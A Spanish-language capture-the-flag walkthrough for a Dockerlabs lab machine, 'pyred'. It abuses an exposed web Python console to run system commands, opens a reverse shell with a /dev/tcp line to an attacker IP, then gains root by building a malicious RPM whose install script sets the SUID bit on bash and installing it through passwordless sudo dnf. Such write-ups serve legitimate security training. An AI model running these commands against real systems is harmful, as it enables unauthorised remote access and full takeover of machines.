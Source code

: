 Desplegamos la máquina vulnerable poniendo en la terminal la línea de comandos **bash auto_deploy.sh pyred.tar** en la carpeta donde se encuentre el contenido extraído del zip.<br>
<ins>La dirección IP de la máquina a vulnerar siempre es la 172.17.0.2</ins>.

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/39f9d17d-537d-489e-b600-8412d3d2d98f)

Ahora, realizamos un escaneo de puertos de la máquina para revisar los puertos abiertos existentes y los posibles servicios a atacar mediante el uso de esos puertos.

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/3d97d0e9-cd78-4155-9c4e-e5ec9d73329e)

Podemos ver que se encuentra abierto únicamente el puerto ***5000***, correspondiente al servicio ***UPnP*** (Universal Plug and Play).

Vamos a intentar atacar a la máquina víctima mediante UPnP. Para ello, nos podemos dirigir al navegador y en el buscador ponemos http://172.17.0.2:5000.

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/ef642a79-9d33-4210-8df9-88110271133c)

Se nos muestra una consola de Python en la que podemos probar comandos y también aparece la salida (output) correspondiente a la ejecución de los comandos que escribamos.
Vamos a escribir por ejemplo, los siguientes comandos y ver que nos devuelve el output:

**import os
print(os.system("id"))**

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/ba46fab3-2643-43c5-9466-e9d487630723)

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/4d8f86f1-8679-4992-8f08-7dd832e1c48a)

La salida nos muestra que somos el usuario "primpi" cuyo ID es el 1000. Probamos a hacer un pwd para saber el directorio en el que nos encontramos o un ls para listar el contenido del directorio:

**import os
print(os.system("pwd"))**

**import os
print(os.system("ls -l"))**

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/bd1968be-deaa-49bb-b5b6-33d419632be2)

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/ea00f12c-bfaf-4f7d-b2f6-e99561c3308d)

Viendo que podemos ejecutar cualquier comando correspondiente al sistema gracias a la librería de Python OS, vamos a ejecutar una reverse shell en esta consola y ejecutarlo.
Para ello, utilizamos la página [https://www.revshells.com/](https://www.revshells.com/) que nos ayudará a generar la línea de código que tenemos que poner.

**import os
print(os.system("sh -i >& /dev/tcp/172.16.36.24/443 0>&1"))**

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/01cadc37-7a8b-441e-a382-7a14cff5d2a2)

Nos ponemos en escucha por el puerto 443 y ejecutamos el código que hemos insertado en la CLI virtual.

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/d7f469fa-098d-4205-a2ac-6570ad9356c5)

Si todo ha ido bien, nos aparecerá una sesión nueva iniciada tras ejecutar la reverse shell.

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/9d39e4e4-2757-42a6-ba53-72be8a730680)

Miramos en que directorio nos encontramos y con qué usuario hemos logrado acceder.

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/c210d46f-92d9-49db-b076-4aa4ab3e4d16)

Aparentemente, somos el usuario "primpi" y estamos en el directorio raíz (**/**) del sistema. Investigamos si podemos realizar una escalada de privilegios usando este usuario para acceder como "root".

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/f27c9e52-b91e-46da-996b-08541a9512bc)

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/204e75ee-8d02-44b5-b8db-1da29c63e557)

Buscamos en [https://gtfobins.github.io/](https://gtfobins.github.io/) la sección correspondiente a "***dnf***" e introducimos los comandos que nos pone en la terminal de nuestra máquina Kali atacante.

**TF=$(mktemp -d)
echo 'chmod u+s /bin/bash' > $TF/x.sh
fpm -n x -s dir -t rpm -a all --before-install $TF/x.sh $TF**

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/29c58322-2b89-45d4-8230-03fd01b7ba8d)

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/25c3d50e-6526-48a1-a257-3df5bf8962b4)

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/78fb179d-528c-4d4c-8809-35833efc9714)

Compartimos el archivo mediante HTTP.

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/2d2d4a22-fdd9-4357-9565-fdd68d0cfecf)

Hacemos un curl desde la máquina víctima para obtener el .rpm que hemos creado poniendo **curl** [***IP de la máquina atacante***]**/x-1.0-1.noarch.rpm -o** [***Nombre programa***].
En mi caso, yo pongo curl 172.17.0.1/x-1.0-1.noarch.rpm -o virus.rpm --> el nombre virus.rpm es para que sea fácil de reconocer a la hora de buscarlo o hacer un listado

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/eceb6f24-0376-41f3-a688-be0024e176ce)

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/e4f8785d-5659-4681-9782-f159541df568)

Escribimos el comando **sudo -u root /usr/bin/dnf install -y virus.rpm**. Esto lo que va a hacer es que como el usuario "primpi" tiene privilegios para acceder a /usr/bin/dnf sin necesidad de ingresar contraseña, iniciamos en la consola pero en lugar de acceder como el usuario primpi, accedemos con el usuario root, por lo que tendremos todos los permisos y privilegios posibles dentro de la máquina víctima.

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/8a6bd089-9759-46b6-8977-f2b6bd077618)

Comprobamos que somos realmente el usuario root:

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/43cdf7f6-cb14-4c26-856d-c45dcc707295)

<ins>**La escalada de privilegios ha funcionado correctamente. Somos el usuario "root"**</ins>.

Una vez finalizamos con la máquina de Dockerlabs presionamos **Ctrl+C** para eliminarla.

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/ca5259c6-5e03-4edd-9d4d-3eb935510bb7)
